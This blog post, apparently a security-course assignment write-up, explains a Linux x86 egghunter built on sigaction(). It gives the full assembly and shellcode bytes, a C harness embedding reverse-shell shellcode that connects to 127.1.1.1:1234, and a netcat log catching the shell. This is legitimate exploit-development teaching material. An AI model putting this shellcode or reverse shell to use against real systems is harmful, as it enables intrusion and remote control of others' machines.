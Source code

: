 ```yaml
---
layout: post
title: Linux x86 Egghunter
tags: [slae]
---
```


This is the third assignment for the SLAE which is creating an Egghunter. So what is an Egghunter and why is it useful? Perhaps you have a buffer overflow but space is limited on the buffer and you're unable to fit all of your shellcode in one spot. What do you do? Well an egghunter could be the solution to your problem. 

An egg is simply a marker than can be set in front of your shellcode and then looked for in memory by an egghunter. Generally your egg should be unique and repeated twice. The reason for the repetition is to avoid the egghunter from recognizing itself during the search and jumping to the wrong spot. Once the egg is found by the egghunter, it simply jumps to your shellcode for execution. 

So how is this accomplished? Well the famous paper by Skape goes into detail on a few different techniques that can be used. Please check out that resource [here](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

For the purposes of this writeup we'll be utilizing the sigaction() method since it is the most efficient. We'll be using the sigaction() syscall to verify valid memory addresses to search for our egg in.

First let's take a look at the sigaction() syscall in the man pages.


```
NAME
       sigaction - examine and change a signal action

SYNOPSIS
       #include <signal.h>

       int sigaction(int signum, const struct sigaction *act,
                     struct sigaction *oldact);
```

We can see that sigaction takes three arguments, `signum` will be in EBX, the `act` pointer in ECX and `oldact` point in EDX. 

If we look further down in the man page we see the following:

```
ERRORS
       EFAULT act  or oldact points to memory which is not a valid part of the
              process address space.
```

What this means is that we can use the `act` pointer as a way to check for valid addresses in memory. If we check for an address that is not valid we'll get an `EFAULT` error returned. 

So for the purposes of our needs, we'll be putting in various memory addresses in ECX to have sigaction() check if its valid or not. If the memory is valid (`EFAULT` is not returned in EAX) then we'll search it for our egg. 

To get started we'll need to find the syscall number for sigaction() which is defined as 67 in `/usr/include/i386-linux-gnu/asm/unistd_32.h` on our Ubuntu box.

We'll also need to know the return value for an `EFAULT` which can be found in `/usr/include/asm-generic/errno-base.h` as 14. Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2 as the value. If this doesn't make sense to you check out two's complement to understand the negative number.  

Now that we have a way to search for valid memory we'll need a method to search for our egg efficiently. To accomplish this we'll utilize the SCASD assembly instruction which will compare EAX to a DWORD value located in EDI and set status flags for the result. If the comparison is a success the ZF (zero flag) will be set in EFLAGS.

After the comparison is ran, EDI will be automatically incremented by 4. This incrementation allows us to call SCASD again to do the second check to verify our egg has been found (remember we repeat the egg twice). If both of the SCASD checks pass then we'll know we've found our shellcode and we can JMP directly to EDI, which will have automatically be incremented to the start of our shellcode thanks to SCASD.

A summary on what needs to happen.

- We first need to set the ECX register to the bottom of the memory address space for sigaction to check. Page sizes in Linux x86 are 4096 which in hex is 0x1000, this contains nulls so to avoid this we'll need to first put 4095 into ECX then increment by 1 to get what we want.

- We then need to execute sigaction and check for the EFAULT return value (AL is checked with 0xf2 to save space).

- If EFAULT is returned we need to increment the memory page address and rerun sigaction to continue searching for valid memory addresses.

- If EFAULT is not returned we know we have a valid address, so we load our egg in EAX, move the current valid address we want to check against (currently stored in ECX) to EDI and run SCASD to check if we have a match.

- If there is no match, we need to increment our memory address and redo the process.

- If there is a match, we'll need to check for our egg again with SCASD.

- If there is no match, increment the memory address and redo the process again. If it is a match again, we've found our egg and can jump to EDI for execution.


## Final Assembly Code

```nasm
global _start

section .text
_start:

next_page:

	or cx,0xfff            ; set cx to 4095

next_address:

	inc ecx			; increment to 4096	
	push byte +0x43         ; sigaction()
	pop eax                 ; put syscall in eax
	int 0x80                ; execute sigaction()
	cmp al,0xf2             ; check for EFAULT
	jz next_page            ; if EFAULT jump to next page in memory
	mov eax, 0x50905090     ; move EGG in EAX
	mov edi, ecx            ; move address to be checked by scasd
	scasd                   ; is eax == edi? if so edi is incremented by 4 bytes
	jnz next_address        ; if not try with the next address
	scasd                   ; check for second half of EGG
	jnz next_address        ; if not try with next address
	jmp edi                 ; if EGG is found again, jmp to shellcode

```

## Testing the Code

First we'll need to compile and extract our egghunter shellcode.

```
absolomb@ubuntu:~/SLAE/assignments/3$ ./compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/3$ for i in $(objdump -d egghunter |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7
```

Once that is done a simple C program can be used along with our shellcode for the TCP reverse shell from the previous post.

```c
#include<stdio.h>
#include<string.h>


#define EGG "\x90\x50\x90\x50"

unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8"
EGG
"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

// Reverse Shell on 127.1.1.1 port 1234
unsigned char code[] = \
EGG EGG
"\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x87\xdf\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	
	printf("Egghunter Length:  %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```

Notice in the code we aren't calling our reverse shell shellcode directly, only the egghunter. We can use any payload we like, we just have to make the modifications to the `code` variable.  

Let's compile and test.

```
absolomb@ubuntu:~/SLAE/assignments/3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/3$ ./egghunter
Egghunter Length:  30
Shellcode Length:  84
```

In another terminal we catch our shell

```
absolomb@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 48094)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>